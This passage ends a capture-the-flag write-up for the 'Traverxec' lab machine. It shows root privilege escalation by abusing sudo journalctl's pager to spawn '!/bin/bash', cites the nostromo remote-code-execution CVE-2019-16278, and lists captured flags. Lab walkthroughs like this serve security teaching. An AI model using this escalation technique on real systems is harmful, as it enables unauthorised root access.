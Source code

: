 ```bash
Jun 11 05:56:59 traverxec su[990]: FAILED SU (to david) www-data on pts/0
```
We are allowed to, and if we remove the `/usr/bin/cat` pipeline:
```bash
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sat 2022-06-11 03:23:58 EDT, end at Sat 2022-06-11 06:43:58 EDT. -
Jun 11 05:50:18 traverxec sudo[983]: pam_unix(sudo:auth): conversation failed
Jun 11 05:50:18 traverxec sudo[983]: pam_unix(sudo:auth): auth could not identify p
Jun 11 05:50:18 traverxec sudo[983]: www-data : command not allowed ; TTY=pts/0 ; P
Jun 11 05:56:58 traverxec su[990]: pam_unix(su:auth): authentication failure; logna
Jun 11 05:56:59 traverxec su[990]: FAILED SU (to david) www-data on pts/0
lines 1-6/6 (END)
```
So we entered a `paginated mode`, this mode, as well as nano or vim, can execute commands. From [gtfobins](https://gtfobins.github.io/gtfobins/journalctl/#sudo) we know we can escalate through:
```bash
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sat 2022-06-11 03:23:58 EDT, end at Sat 2022-06-11 06:43:58 EDT. -
Jun 11 05:50:18 traverxec sudo[983]: pam_unix(sudo:auth): conversation failed
Jun 11 05:50:18 traverxec sudo[983]: pam_unix(sudo:auth): auth could not identify p
Jun 11 05:50:18 traverxec sudo[983]: www-data : command not allowed ; TTY=pts/0 ; P
Jun 11 05:56:58 traverxec su[990]: pam_unix(su:auth): authentication failure; logna
Jun 11 05:56:59 traverxec su[990]: FAILED SU (to david) www-data on pts/0
lines 1-6/6 (END)
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sat 2022-06-11 03:23:58 EDT, end at Sat 2022-06-11 06:45:30 EDT. -
Jun 11 05:50:18 traverxec sudo[983]: pam_unix(sudo:auth): conversation failed
Jun 11 05:50:18 traverxec sudo[983]: pam_unix(sudo:auth): auth could not identify p
Jun 11 05:50:18 traverxec sudo[983]: www-data : command not allowed ; TTY=pts/0 ; P
Jun 11 05:56:58 traverxec su[990]: pam_unix(su:auth): authentication failure; logna
Jun 11 05:56:59 traverxec su[990]: FAILED SU (to david) www-data on pts/0
!/bin/bash
root@traverxec:/home/david/bin# hostname -I
10.10.10.165 
```
We obtained root shell on traverxec.htb.

## CVE
### [CVE-2019-16278](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16278)
Directory Traversal in the function http_verify in nostromo nhttpd through 1.9.6 allows an attacker to achieve remote code execution via a crafted HTTP request.

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | 7db0b48469606a42cec20750d9782f3d | No | 11-06-2022|
| Root | 9aa36a6d76f785dfd320a478f6e0d906 | No | 11-06-2022|

## References
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16278
- https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD
- https://gtfobins.github.io/gtfobins/journalctl/#sudo